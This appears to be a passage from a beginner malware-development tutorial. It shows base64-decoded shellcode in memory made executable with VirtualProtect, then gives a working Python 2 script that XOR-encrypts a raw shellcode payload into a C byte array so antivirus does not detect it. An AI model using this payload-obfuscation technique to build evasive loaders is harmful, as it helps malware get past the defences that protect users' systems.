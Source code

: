 This is because, as we can see in the code, we are in the getchar() function waiting for input; we have allocated memory for the buffer but this memory is empty as we haven't decoded the payload and neither have called VirtualProtect that executes the shellcode...
![[attachments/sektor_beginner-35.png]]

After we press enter, the first getchar() function is called, and also the DecodeBase64 and the VirtualProtect() function. We can now see that, in the same memory region as before, the shellcode appears **and also is the decoded shellcode! Not the base64 encoded one.**
![[attachments/sektor_beginner-36.png]]
Note that base64 is **not enough to hide our payload as rev. engineers and AV will look for it. If you want to use encoding, with no encryption, we must come up for our own algorithm for encoding.**

## Encrypting our payload with XOR
First of all, with encryption we need a key to encrypt our payload. 
Here is a python2 script that takes our payload in binary format (in a .bin file, for example) and encrypts it with a key:
```python
import sys

KEY = "mysecretkeee"

def xor(data, key):
	
	key = str(key)
	l = len(key)
	output_str = ""

	for i in range(len(data)):
		current = data[i]
		current_key = key[i % len(key)]
		output_str += chr(ord(current) ^ ord(current_key))
	
	return output_str

def printCiphertext(ciphertext):
	print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')



try:
    plaintext = open(sys.argv[1], "rb").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()


ciphertext = xor(plaintext, KEY)
print('{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };')
```
Let's use this python2 script to generate a file of our binary shellcode but encrypted with an XOR with this key.
![[attachments/sektor_beginner-37.png]]
